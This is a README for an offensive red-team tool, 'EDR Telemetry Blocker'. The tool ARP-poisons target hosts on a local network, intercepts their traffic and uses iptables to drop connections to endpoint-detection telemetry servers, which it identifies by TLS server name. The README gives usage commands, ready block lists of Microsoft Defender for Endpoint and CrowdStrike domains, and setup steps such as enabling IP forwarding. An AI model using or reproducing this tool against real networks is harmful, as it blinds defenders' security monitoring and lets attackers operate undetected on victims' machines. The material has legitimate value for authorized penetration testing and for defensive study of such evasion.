 # EDR Telemetry Blocker
Blocks EDR Telemetry by performing Man-in-the-Middle attack where network filtering is applied using iptables. The blocked destination IP addresses are parsed based on the server name in TLS Client Hello packet and the provided blocked server name (or blocked string) list in the file. 

```
# python3 edr_blocker.py -h

 ______   _____    ______       ______   __       ______   ______   __  __   ______   ______
/\  ___\ /\  __-. /\  == \     /\  == \ /\ \     /\  __ \ /\  ___\ /\ \/ /  /\  ___\ /\  == \
\ \  __\ \ \ \/\ \\ \  __<     \ \  __< \ \ \____\ \ \/\ \\ \ \____\ \  _"-.\ \  __\ \ \  __<
 \ \_____\\ \____- \ \_\ \_\    \ \_____\\ \_____\\ \_____\\ \_____\\ \_\ \_\\ \_____\\ \_\ \_\
  \/_____/ \/____/  \/_/ /_/     \/_____/ \/_____/ \/_____/ \/_____/ \/_/\/_/ \/_____/ \/_/ /_/

                                                            by Tier Zero Security - New Zealand

usage: edr_blocker.py [-h] -i INTERFACE -f FILE [-m] [-v] -t TARGET -gw GATEWAY

Performs ARP Poisoning against victim host(s) and blocks EDR telemetry by utilising iptables.

options:
  -h, --help            show this help message and exit
  -i INTERFACE, --interface INTERFACE
                        Network interface to sniff on
  -f FILE, --file FILE  File containing the list of blocked server names or a part of the name 
  -m, --monitor         Monitor mode: only detect and log blocked IPs, do not add iptables rules
  -v, --verbose         Enable verbose output
  -t TARGET, --target TARGET
                        Target IP address or range (e.g., 192.168.0.1-10 or 192.168.0.1,192.168.0.2 (no space)
  -gw GATEWAY, --gateway GATEWAY
                        Gateway IP address

Example: python3 edr_blocker.py -i eth0 -f mde_block.txt -t 192.168.0.50 -gw 192.168.0.1
```

## FILE
This is probably not a complete list for everyone. But worked in our lab environment. 
block_mde.txt:
```
events.data.microsoft.com
wd.microsoft.com
wdcpalt.microsoft.com
wdcp.microsoft.com
blob.core.windows.net
winatp-gw-cus
automatedirstrprdcus
endpoint.security.microsoft.com
smartscreen.microsoft.com
```

block_cs.txt:
```
cloudsink.net
```
# Installing edr_blocker.py
```
git clone git@github.com:TierZeroSecurity/edr_blocker.git
cd edr_blocker
```
Install python venv
```
pip install virtualenv
```
Create virtual environment
```
python3 -m venv myenv
```
Install Python Scapy
```
source myenv/bin/activate
sudo pip install scapy
```
Enable packet forwarding
```
sysctl -w net.ipv4.ip_forward=1
```
Run edr_blocker.py
```
sudo python3 edr_blocker.py -h
```
